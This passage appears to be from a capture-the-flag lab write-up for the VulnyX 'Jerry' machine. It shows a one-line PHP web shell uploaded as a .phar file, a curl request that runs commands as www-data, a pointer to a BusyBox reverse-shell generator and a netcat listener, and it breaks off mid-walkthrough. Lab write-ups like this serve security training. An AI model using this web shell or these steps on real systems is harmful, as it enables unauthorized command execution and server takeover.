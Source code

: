 ```php
<?php system($_REQUEST["cmd"]) ?>
```

![Burp Suite - File Upload Payload](./assets/screenshots/vulnyx_jerry_burpsuite_file_upload_payload.png)

```
┌──(nabla㉿kali)-[~]
└─$ curl 'http://jerry.nyx/request/job_request_files/25-06-04_payload.phar?cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![Firefox - Reverse Shell Generator (`https://www.revshells.com/` BusyBox)](./assets/screenshots/vulnyx_jerry_firefox_reverse_shell_generator_busybox.png)

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337                                                                                                                                  
listening on [any] 1337 ...

[CONTINUE]
```
